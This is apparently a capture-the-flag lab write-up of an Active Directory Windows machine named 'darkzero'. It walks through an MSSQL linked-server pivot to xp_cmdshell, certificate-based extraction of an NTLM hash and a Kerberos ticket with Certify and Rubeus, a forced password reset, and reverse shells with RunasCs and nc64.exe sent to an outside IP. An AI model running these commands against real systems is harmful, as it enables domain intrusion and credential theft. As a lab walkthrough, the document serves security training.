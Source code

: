 
# Summary
#mssql #Certificate #Delegation

---

`john.w` : `RFulUtONCOL!`
10.129.77.28

We will start with nmap:
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-10-05 15:47:29Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA/domainComponent=darkzero
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.darkzero.htb
| Issuer: commonName=darkzero-DC01-CA/domainComponent=darkzero
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2022 16.00.1000.00; RC0+
2179/tcp open  vmrdp?        syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
```

Trying to use `nxc`, found that `NTLM` authentication is disabled. So, if we want to use anything we should use `kerberose`.

Try to get inside mssql
```
mssqlclient.py  'darkzero.htb/john.w:RFulUtONCOL!@10.129.77.28' -windows-auth
SQL (darkzero\john.w  guest@master)>
```
We tried to get shell but we can't execute commands.

We found we have can login as another user in another server in another domain "trust" which is `DC02.darkzero.ext`:
```
SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      

DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      

Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w                 0   dc01_sql_svc 
```

Use this link to login in the other server, and we found we can do `xp_cmdshell`:
```
SQL (darkzero\john.w  guest@master)> use_link "DC02.darkzero.ext"
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell powershell -e POWERSHELL_REVERSE_SHELL_BASE(64)
```

We have `svc_sql` access, which is service account. Usually those accounts runs with privileged access, but when i did `whoami /priv` i found that `UAC` is enabled:
```
PS C:\Users\svc_sql> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

## UAC bypass
We need to find a way to bypass the UAC, we can try to use `RunasCs.exe`. But this need the password or the hash of the user.
We can manage getting the password or the hash by requesting normal certificate form the `ADCS`, while requesting it we can view the password hash.
```
.\Certify.exe request /ca:'DC02\darkzero-ext-DC02-CA' /template:User /outfile:"C:\Users\svc_sql\cert.pem"
[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

I have transfered it to my linux to convert it to ready to use certificate:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:                                                                   
Verifying - Enter Export Password: 
```

> [!attention] openssl
> It may ask you for password, leave it blank just press **Enter**

I don't want to configure the TGT for the internal KDC so i transfered the certificate back to the server and used `rubues.exe`:
```
PS C:\Users\svc_sql> .\Rubeus.exe asktgt /user:svc_sql /certificate:cert.pfx /getcredentials /nowrap                                
   ______        _                                                                                                                                                                                 
  (_____ \      | |                             
   _____) )_   _| |__  _____ _   _  ___         
  |  __  /| | | |  _ \| ___ | | | |/___)        
  | |  \ \| |_| | |_) ) ____| |_| |___ |        
  |_|   |_|____/|____/|_____)____/(___/         

  v2.0.2                                        

[*] Action: Ask TGT                             

[*] Using PKINIT with etype rc4_hmac and subject: CN=svc_sql, CN=Users, DC=darkzero, DC=ext 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'darkzero.ext\svc_sql'                              
[*] Using domain controller: ::1:88             
[+] TGT request successful!                     
[*] base64(ticket.kirbi):                       

      doIGADCCBfygAwIBBaEDAgEWooIFFjCCBRJhggUOMIIFCqADAgEFoQ4bDERBUktaRVJPLkVYVKIhMB+g           
      AwIBAqEYMBYbBmtyYnRndBsMZGFya3plcm8uZXh0o4IEzjCCBMqgAwIBEqEDAgECooIEvASCBLhCdJkW           
      shyNiLX7Ih9xafwkrloFMo3qlK7TiLQOA0i4hfhe1A6sWdCmd1UC4y7++VCOvFC79p6PlW9bO5LpDJ9C           
      dsGcktRAtgRA/LGAdaQVmw/XutMfcbAqC3h2DorqspSaL/dtxzD23cySRNvrv5wHxaipDo3DbIJ+t6y3           
      0NY/hvcCn2sdPUKX8eMBMSCtdY/FyL+Ix3EBE+pV29ZlfJzJAdx9px0QNRy/7X3YSyNh3B6yQQiNNCfz           
      27/NMYSeMskYn0LTrMFMcS2B6VZLvDuj07QMqPrv0iuPIk0ufypVSxYqHwntWKgpbjofpQHquS9kw8mG           
      a8FWFteooQPKTG6yUfJRQm85SFaCZ8Vq1878XNYmwhWDu62NhdOdEfzg5Bh23YpqTYO1v9XryOAbwDvq           
      nPubn39BjH2Al5tFTHHEBdhckdpoNGoBlSTVwjpyOGm0NZTPNkQKTD/drLO4Dfw7ZCL8t5KDRRMHofJl           
      48TAYu3XDugZBppkJ2W+RhU9BmDGo4cn5VToahT9Csn+cNGoggdfvh/lhYAeJOPqtNoyEF9nljU8KUFm           
      7tA3htulbuC+0GVe1ldzetaJw98N9iCB8PZKJgBCTv9B90TJTvbCPT/lykiEhaVEGMbgmaANuHs1xyAc           
      ZaQIA6T3/rixDvbrS0eVEygClDiMu8w0Knkx5YjV1rkVWxBF0YVqNuwti4XW1EDBqEYXLOkXe/zow7qj           
      OqeU5yFVRbXR7pyAeZmV6m1zLJnasNt0acqXZXAdhwe3jeeUYQuaqI8HUh6OGMlWdpkNdK6UZsIYI8af           
      bXJY+CQ1qW1NFUBT1l93ADHWmPABHsioWOJRljODbArAv4pQy9nVHEpsSVIf4arD4ZVSvbaBkb1MrnQb           
      7fy9Vv8UJd2bWGyZBuxXyMerwBiVSuUtuQPueDWZJetj7hJsaEhVVnvOnlq/bfaksJg8iy4ury4Evsbd           
      0DhJd2IC536VRgUE4Nh4EBper9B/YdK3j9ZeKTn9UWVxsa1UV33tz982zkmDtLC+2aK/qK0apQ35RJeS           
      hgtIK7fwak7GJAKNjbwq38p7uRzXEM1FxhNLhbmpMa3ru5hJBsd6JAmxMvFZ5UFTPZVsKAJ2jXlmM9nE           
      bVtCAWIq9y/6A9RvHHoVHo+F1MKORaln/NoWaQbNJpSyN9xABcu8fbRwTZGzkrbGWLq3HIDawAadLvNV           
      n4pkzLA2WKFim9WkfTKVK5vbp9SnX3dsUtuNoBlbcoY6uccZSSjN5IaRs5FuQt4eNTRuzN9utl4TmVfk           
      H0nSvO4qGZ6sMSeIoj1tbeR+Kvh4jdC/zOWXJjYalauP3V2SkRDC24FhJ2DtGp2SH0GaVvBhNAEuygoc           
      XE7S1TEZAvIidVfq61iAWkNmBeVtm4cvPFlJ5MI2HGXZVjz72eOmf+K5Lyttji/a2wufqDZrl0Jlg9pn           
      zd5kLHXNBkbjXhcO3mxOg5gRgjWD8/J78fzGSTbBufArn4LTpQD74sMJ++RFbecK+RHJXjpH6g1wuEB0           
      vb/s7MerAAf/aF0ETNtVDywmk2XS/ySy6MQtEW1/g8aNFckgs258R+2wCSrJ0s199+qAj/RhhPYLNsa6           
      tYWmWKOB1TCB0qADAgEAooHKBIHHfYHEMIHBoIG+MIG7MIG4oBswGaADAgEXoRIEEK/HSaEM/3AAFU2k           
      s1RFFRihDhsMREFSS1pFUk8uRVhUohQwEqADAgEBoQswCRsHc3ZjX3NxbKMHAwUAQOEAAKURGA8yMDI1           
      MTAxMzIzNTEwNVqmERgPMjAyNTEwMTQwOTUxMDVapxEYDzIwMjUxMDIwMjM1MTA1WqgOGwxEQVJLWkVS           
      Ty5FWFSpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDGRhcmt6ZXJvLmV4dA==                                   

  ServiceName              :  krbtgt/darkzero.ext                                                
  ServiceRealm             :  DARKZERO.EXT      
  UserName                 :  svc_sql           
  UserRealm                :  DARKZERO.EXT      
  StartTime                :  10/13/2025 4:51:05 PM                                              
  EndTime                  :  10/14/2025 2:51:05 AM                                              
  RenewTill                :  10/20/2025 4:51:05 PM                                              
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac          
  Base64(key)              :  r8dJoQz/cAAVTaSzVEUVGA==
  ASREP (key)              :  0BC3CE804AFBFD50FF7877B03696C074  
[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 816CCB849956B531DB139346751DB65F

```

That is the hash: `816CCB849956B531DB139346751DB65F`

After getting the hash, we will change the password so we can use `RunasCs.exe`.

> [!NOTE] RunasCs.exe
> RunasCs.exe needs the plain text of the password, it doesn't accept NTLM hash.

```
changepasswd.py svc_sql@172.16.20.2 -hashes 816CCB849956B531DB139346751DB65F -newpass 'P@ssw0rd1!' -dc-ip 172.16.20.2
```

After that we use `RunasCs.exe`:
```
.\RunasCs.exe svc_sql 'P@ssw0rd1!' powershell -l 5 -b -r 10.10.16.60:4442
```

Now looking at our privileges:
```
Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege
```

Getting `SYSTEM` in `DC02.darkzero.ext` using metasploit 
```
C:\Users\svc_sql\nc64.exe 10.10.16.60 4444 -e cmd.exe
```